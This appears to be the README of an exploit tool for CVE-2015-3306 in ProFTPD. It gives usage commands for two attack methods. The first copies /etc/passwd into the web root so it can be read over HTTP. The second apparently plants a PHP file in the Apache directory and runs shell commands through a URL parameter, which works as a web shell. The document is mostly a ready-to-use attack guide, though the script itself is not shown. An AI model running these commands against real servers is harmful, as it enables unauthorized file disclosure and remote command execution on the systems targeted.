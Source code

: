 # cpx_proftpd

Tool coded by Daniel Aldana for [CVE-2015-3306](http://bugs.proftpd.org/show_bug.cgi?id=4169) exploitation. Bug reported by Vadim Melihow

###METHOD 1:

usage: 

```
python cpx_proftp.py <IP> <REMOTE_FULLPATH_SRC_FILE> <REMOTE_FULLPATH_DST_FILE>
```

ex:

```
python cpx_proftp.py 127.0.0.1 /etc/passwd /var/www/pass.txt
```

then try:

```
http://127.0.0.1/pass.txt
```

###METHOD 2:


usage: 

```
python cpx_proftp.py <IP> <REMOTE_FULLPATH_APACHE2>
```

ex:

```
python cpx_proftp.py 127.0.0.1 /var/www/html
```

then try:

```
http://127.0.0.1/xxx.php?img=ls
```
